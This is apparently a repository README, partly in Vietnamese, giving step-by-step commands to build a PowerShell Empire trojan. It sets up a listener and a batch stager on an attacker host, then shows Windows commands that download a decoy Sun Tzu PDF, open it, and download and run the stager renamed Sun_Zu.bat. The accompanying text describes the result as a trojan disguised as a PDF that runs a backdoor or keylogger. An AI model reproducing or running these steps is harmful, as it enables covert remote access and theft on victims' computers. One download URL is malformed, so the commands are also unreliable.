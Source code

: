 [Demo](https://www.youtube.com/watch?v=-ijzoEiw1Cw)

powershell-empire server 
powershell-empire client

uselistener http
set Host 192.168.202.159
set Port 8080
execute

usestager windows/launcher_bat
set Listener http

execute

sudo service apache2 start
sudo service apache2 status
sudo mv /var/lib/powershell-empire/empire/client/generated-stagers/launcher.bat /var/www/html/launcher.bat

192.168.202.159/launcher.bat

cd %TEMP%
Powershell -Command "Invoke-WebRequest 'https://dotchuoinon.files.wordpress.com/2012/07/ton-tu-binh-phap.pdf' -OutFile Tontu.pdf"
Tontu.pdf
Powershell -Command "Invoke-WebRequest 'http://http://192.168.202.159/launcher.bat' -OutFile Sun_Zu.bat"
Sun_Zu.bat

Kịch bản 1 tạo 1 trojan sử dụng Powershell
Trojan là một tập tin có giao diện trông giống như một tệp hình ảnh hoặc pdf bình thường
nhưng khi được thực thi, nó sẽ chạy các mã độc ở chế độ nền như 1 backdoor hoặc 1 keylogger

Về cơ bản, đây là một lệnh tải xuống và tiếp theo đó là lệnh tự động chạy file

